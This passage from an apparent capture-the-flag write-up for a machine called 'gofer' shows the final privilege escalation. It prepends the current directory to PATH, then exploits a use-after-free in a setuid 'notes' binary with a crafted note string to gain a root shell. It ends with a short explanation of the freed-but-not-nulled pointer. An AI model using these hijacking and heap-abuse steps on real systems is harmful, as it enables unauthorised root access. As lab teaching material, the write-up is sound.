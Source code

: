 ```

tbuckley@gofer:/dev/shm$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
tbuckley@gofer:/dev/shm$ export PATH=.:$PATH
tbuckley@gofer:/dev/shm$ echo $PATH
.:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

```

Now the current directory is the first item in the path.

From here, it’s just running the following steps:
1. Start `notes`
2. Option 1 to create a user.
3. Option 3 to delete the user.
4. Option 4 with a note of “Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin” to set myself admin.
5. Optionally I can verify that worked with option 2.
6. Option 8 to run `tar`.

It works:

```

Your choice: 8

Access granted!
root@gofer:/dev/shm#

```

I can grab `root.txt`:

```

root@gofer:/root# cat root.txt
1321cf4c************************

```

## Beyond Root

### notes Binary

I actually love binary exploitation that doesn’t rely on looking at assembly. It’s a really fun and beginner accessible way to show binary exploitation. That said, it’s still worth looking at this binary in assembly. I’ll download a copy and fire up Ghidra in [this video](https://www.youtube.com/watch?v=z4KZCwbTNy0):

Interestingly, the entire binary is basically one function. It has two variables that store pointers, both of which are initialized to null. When a user is created, memory from the heap is requested and the first pointer is set pointing to it. When a user is deleted, that memory is freed, but the pointer is not nulled. So when option two is called for user information, it prints out whatever is in that buffer.
